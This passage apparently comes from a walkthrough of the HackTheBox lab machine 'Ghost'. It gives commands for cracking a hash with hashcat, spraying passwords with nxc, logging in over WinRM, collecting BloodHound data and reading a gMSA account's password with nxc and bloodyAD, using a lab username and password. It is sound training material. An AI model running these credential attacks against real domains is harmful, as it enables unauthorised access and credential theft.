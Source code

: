 Copy the hash to a file and run Hashcat in autodetect mode

```bash
hashcat hash /usr/share/wordlists/rockyou.txt  
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*MwOMdkgneJiJzAfL_sTzdw.png)

We have a new user with credentials — time to get to work!

I made a simple script to loop over all the services I need while spraying password, since `nxc` only enables using one service at a time with [nxc_bruter](https://github.com/B4l3rI0n/nxc_bruter) it helped with pro labs

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*jFZ7W9Lm0_1kfGmeUK00TA.png)


We have winrm access to the domain as `justin.bradley` we can use evil-winrm for that

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*xJ5kiyaSEpQm_RUYnfq0qQ.png)

At this step, I prefer to dump domain data for visualization in BloodHound.

```bash
bloodhound-python -d ghost.htb -u 'justin.bradley' -p 'Qwertyuiop1234$$' -ns 10.10.11.24 -c all --zip --dns-tcp
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*RkUqyJGJS4yzJ_nXtd2MNw.png)

Import data into bloodhound, then mark `florence.ramirez`,`justin.bradley` as owned. Looking at the `OUTBOUND OBJECT CONTROL` of each owned user

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Lxe1i6wM3TivHDcgsOlupA.png)

`justin.bradley` can read the GMSA Password of `ADFS_GMSA$`

> **Info:** GMSA Group Managed Service Account; A special type of service account that allows automatic password management and delegation without manual intervention. The password is securely stored and can only be retrieved by authorized users or systems, such as justin.bradley in this case.
{: .prompt-tip }


Use any tool to retrieve the account hash, such as **nxc**, **gMSADumper**, or **BloodyAD**.
+ nxc 
    ```
    nxc ldap ghost.htb -u 'justin.bradley' -p 'Qwertyuiop1234$$' --gmsa 
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*E0UJ6bNUtgGJIOI2A75GoQ.png)

+ Or using bloodyAD
    ```
    bloodyAD -d ghost.htb -u justin.bradley  -p 'Qwertyuiop1234$$' --host 10.10.11.24  get object 'ADFS_GMSA$' --attr msDS-ManagedPassword
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8N0EDLGUzGjgjWgsuw7-RA.png)
    
